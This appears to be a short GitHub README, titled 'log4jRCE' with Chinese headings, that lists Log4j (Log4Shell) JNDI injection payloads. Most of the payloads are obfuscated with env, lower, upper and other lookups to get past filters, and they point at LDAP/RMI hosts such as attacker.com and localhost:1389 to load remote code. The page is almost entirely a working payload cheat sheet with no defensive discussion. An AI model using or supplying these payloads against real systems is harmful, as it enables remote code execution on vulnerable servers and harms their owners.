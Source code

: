 # #log4jRCE

```
1.绕过rc1版本
${jndi:ldap://127.0.0.1:1389/ badClassName}

2.绕过方式
${${env:aaaa:-j}${env:aaaa:-n}${env:aaaa:-d}${env:aaaa:-i}:${env:aaaa:-l}${env:aaaa:-d}${env:aaaa:-a}${env:aaaa:-p}${env:aaaa:-:}//
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
${jndi:rmi://adsasd.asdasd.asdasd}
${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attacker.com/a}
${jndi:${lower:l}${lower:d}a${lower:p}://loc${upper:a}lhost:1389/rce}
jn${env::-}di: 
jn${date:}di${date:':'} 
j${k8s:k5:-ND}i${sd:k5:-:} 
j${main:\k5:-Nd}i${spring:k5:-:} 
j${sys:k5:-nD}${lower:i${web:k5:-:}} 
j${::-nD}i${::-:} 
j${EnV:K5:-nD}i: 
j${loWer:Nd}i${uPper::} 
```

![https://github.com/Nan3r/log4j/blob/main/README.assets/2.png](README.assets/2.jpg)

![https://github.com/Nan3r/log4j/blob/main/README.assets/1.png](README.assets/1.png)

